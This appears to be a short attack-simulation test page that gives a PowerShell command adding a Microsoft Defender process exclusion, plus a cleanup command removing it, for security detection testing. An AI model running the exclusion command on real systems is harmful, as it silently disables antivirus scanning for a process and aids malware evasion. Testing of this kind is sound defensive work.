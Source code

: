 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$excludedProcess = "#{excluded_process}"
Add-MpPreference -ExclusionProcess $excludedProcess
```

#### Cleanup Commands:
```powershell
$excludedProcess = "#{excluded_process}"
Remove-MpPreference -ExclusionProcess  $excludedProcess
```





<br/>
